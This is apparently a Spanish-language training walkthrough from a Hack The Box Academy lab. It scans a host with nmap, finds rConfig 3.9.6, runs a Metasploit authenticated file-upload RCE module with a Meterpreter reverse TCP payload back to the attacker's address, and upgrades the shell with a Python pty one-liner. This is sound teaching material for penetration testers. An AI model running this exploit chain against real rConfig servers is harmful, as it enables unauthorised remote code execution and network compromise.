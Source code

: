 Obtener una sesión de shell con un sistema se puede hacer de varias maneras, una forma común es a través de una vulnerabilidad en una aplicación. Identificaremos una vulnerabilidad y descubriremos un exploit que podemos utilizar para obtener un shell entregando una carga útil. Al considerar cómo estableceremos una sesión de shell en un sistema Unix/Linux, nos beneficiaremos al considerar lo siguiente:

- ¿Qué distribución de Linux está ejecutando el sistema?
- ¿Qué lenguajes de programación y shell existen en el sistema?
- ¿Qué función cumple el sistema para el entorno de red en el que se encuentra?
- ¿Qué aplicación aloja el sistema? 
- ¿Existen vulnerabilidades conocidas?

## Obtener un Shell atacando una aplicación vulnerable
#### Enumerar de host
```js
┌──(pelado㉿kali)-[~/HTB/Academy/ShellsPayloads]
└─$ nmap 10.129.201.101 -sCV -p- --min-rate=1000 -Pn -n
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-22 02:37 EDT
Warning: 10.129.201.101 giving up on port because retransmission cap hit (10).
Stats: 0:02:37 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 58.03% done; ETC: 02:42 (0:01:54 remaining)
Nmap scan report for 10.129.201.101
Host is up (0.15s latency).
Not shown: 53529 closed tcp ports (conn-refused), 12000 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 2.0.8 or later
22/tcp   open  ssh      OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey: 
|   2048 2d:b2:23:75:87:57:b9:d2:dc:88:b9:f4:c1:9e:36:2a (RSA)
|   256 c4:88:20:b0:22:2b:66:d0:8e:9d:2f:e5:dd:32:71:b1 (ECDSA)
|_  256 e3:2a:ec:f0:e4:12:fc:da:cf:76:d5:43:17:30:23:27 (ED25519)
80/tcp   open  http     Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_http-title: Did not follow redirect to https://10.129.201.101/
111/tcp  open  rpcbind  2-4 (RPC #100000)
| rpcinfo: 
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|_  100000  3,4          111/udp6  rpcbind
443/tcp  open  ssl/http Apache httpd 2.4.6 ((CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34)
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
|_http-server-header: Apache/2.4.6 (CentOS) OpenSSL/1.0.2k-fips PHP/7.2.34
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2021-09-24T19:29:26
|_Not valid after:  2022-09-24T19:29:26
3306/tcp open  mysql    MySQL (unauthorized)
Service Info: Host: the

```


¿Qué información podemos obtener de los resultados?
Teniendo en cuenta que podemos ver que el sistema está escuchando en los puertos 80 ( `HTTP`), 443 ( `HTTPS`), 3306 ( `MySQL`), y 21 ( `FTP`), puede ser seguro asumir que se trata de un servidor web que aloja una aplicación web. También podemos ver algunos números de versión revelados asociados con la pila web ( `Apache 2.4.6` y `PHP 7.2.34` ) y la distribución de Linux que se ejecuta en el sistema ( `CentOS`). Antes de decidir una dirección para investigar más a fondo (sumergirse en una madriguera de conejo), también deberíamos intentar navegar hasta la dirección IP a través de un navegador web para descubrir la aplicación alojada, si es posible.
![](https://academy.hackthebox.com/storage/modules/115/rconfig.png)\
Aquí descubrimos una herramienta de gestión de configuración de red llamada [rConfig](https://www.rconfig.com) . Los administradores de sistemas y redes utilizan esta aplicación para automatizar el proceso de configuración de dispositivos de red. Un caso de uso práctico sería utilizar rConfig para configurar de forma remota interfaces de red con información de direcciones IP en múltiples enrutadores simultáneamente. Esta herramienta ahorra tiempo a los administradores pero, si se ve comprometida, podría usarse para acceder a dispositivos de red críticos que conmutan y enrutan paquetes a través de la red. Un atacante malintencionado podría poseer toda la red a través de rConfig, ya que probablemente tendrá acceso de administrador a todos los dispositivos de red utilizados para configurar. Como pentesters, encontrar una vulnerabilidad en esta aplicación se consideraría un descubrimiento muy crítico.

## Descubriendo una vulnerabilidad en rConfig
Mire de cerca la parte inferior de la página de inicio de sesión web y podremos ver el número de versión de rConfig ( `3.9.6`). Deberíamos utilizar esta información para empezar a buscar cualquier `CVEs`, `publicly available exploits`, y `proof of concepts` ( `PoCs`). Mientras investigamos, asegúrese de observar de cerca lo que encontramos y comprender lo que está haciendo. Por supuesto, queremos que nos lleve a una sesión shell con el objetivo.


#### Buscar un módulo de explotación

```js
msf6 > search rconfig
Matching Modules
================
   #   Name                                                     Disclosure Date  Rank       Check  Description
   -   ----                                                     ---------------  ----       -----  -----------
   0   exploit/multi/http/solr_velocity_rce                     2019-10-29       excellent  Yes    Apache Solr Remote Code Execution via Velocity Template
   1     \_ target: Java (in-memory)                            .                .          .      .
   2     \_ target: Unix (in-memory)                            .                .          .      .
   3     \_ target: Linux (dropper)                             .                .          .      .
   4     \_ target: x86/x64 Windows PowerShell                  .                .          .      .
   5     \_ target: x86/x64 Windows CmdStager                   .                .          .      .
   6     \_ target: Windows Exec                                .                .          .      .
   7   auxiliary/gather/nuuo_cms_file_download                  2018-10-11       normal     No     Nuuo Central Management Server Authenticated Arbitrary File Download
   8   exploit/linux/http/rconfig_ajaxarchivefiles_rce          2020-03-11       good       Yes    Rconfig 3.x Chained Remote Code Execution
   9   exploit/linux/http/rconfig_vendors_auth_file_upload_rce  2021-03-17       excellent  Yes    rConfig Vendors Auth File Upload RCE
   10  exploit/unix/webapp/rconfig_install_cmd_exec             2019-10-28       excellent  Yes    rConfig install Command Execution
   11    \_ target: Automatic (Unix In-Memory)                  .                .          .      .
   12    \_ target: Automatic (Linux Dropper)                   .                .          .      .
```

`rconfig_vendors_auth_file_upload_rce.rb`. Este exploit puede conseguirnos una sesión de shell en una máquina Linux de destino que ejecute rConfig 3.9.6.

## Usando el exploit rConfig y obteniendo un Shell
```js
msf6 > use 9
[*] No payload configured, defaulting to php/meterpreter/reverse_tcp
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > show options

Module options (exploit/linux/http/rconfig_vendors_auth_file_upload_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD   admin            yes       Password of the admin account
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
   RPORT      443              yes       The target port (TCP)
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI  /                yes       The base path of the rConfig server
   URIPATH                     no        The URI to use for this exploit (default is random)
   USERNAME   admin            yes       Username of the admin account
   VHOST                       no        HTTP server virtual host


   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.4      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   rConfig <= 3.9.6

View the full module info with the info, or info -d command.

msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set RHOSTS 10.129.201.101
RHOSTS => 10.129.201.101
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > set LHOST 10.10.15.13
LHOST => 10.10.15.13
```

```js
msf6 exploit(linux/http/rconfig_vendors_auth_file_upload_rce) > exploit

[*] Started reverse TCP handler on 10.10.15.13:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[+] 3.9.6 of rConfig found !
[+] The target appears to be vulnerable. Vulnerable version of rConfig found !
[+] We successfully logged in !
[*] Uploading file 'gckvkx.php' containing the payload...
[*] Triggering the payload ...
[*] Sending stage (39927 bytes) to 10.129.201.101
[+] Deleted gckvkx.php
[*] Meterpreter session 1 opened (10.10.15.13:4444 -> 10.129.201.101:34460) at 2024-06-22 03:00:50 -0400

meterpreter > getuid
Server username: apache
meterpreter > 
```

Podemos ver en los pasos descritos en el proceso de explotación que este exploit:
- Comprueba la versión vulnerable de rConfig
- Se autentica con el inicio de sesión web de rConfig
- Carga una carga útil basada en PHP para una conexión de shell inversa
- Elimina la carga útil
- Nos deja con una sesión de shell de Meterpreter

## Generando un Shell TTY con Python

Cuando ingresamos al shell del sistema, notamos que no hay ningún mensaje presente, pero aún podemos emitir algunos comandos del sistema. Este es un caparazón típicamente conocido como `non-tty shell`. Estos shells tienen una funcionalidad limitada y a menudo pueden impedir el uso de comandos esenciales como `su` ( `switch user`) y `sudo` ( `super user do`), que probablemente necesitaremos si buscamos aumentar los privilegios. Esto sucedió porque el usuario de Apache ejecutó la carga útil en el objetivo. Nuestra sesión se establece como usuario de apache. Normalmente, los administradores no acceden al sistema como usuarios de Apache, por lo que no es necesario definir un lenguaje de intérprete de shell en las variables de entorno asociadas con Apache.

Podemos generar manualmente un shell TTY usando Python si está presente en el sistema. Siempre podemos verificar la presencia de Python en sistemas Linux escribiendo el comando: `which python`. Para generar la sesión de shell TTY usando Python, escribimos el siguiente comando:

```js
python3 -c 'import pty; pty.spawn("/bin/sh")' 

sh-4.2$         
sh-4.2$ whoami
whoami
apache
```

Este comando usa python para importar el [módulo pty](https://docs.python.org/3/library/pty.html) , luego usa el `pty.spawn` función para ejecutar el `bourne shell binary` ( `/bin/sh`). Ahora tenemos un mensaje ( `sh-4.2$`) y acceso a más comandos del sistema para movernos por el sistema como queramos.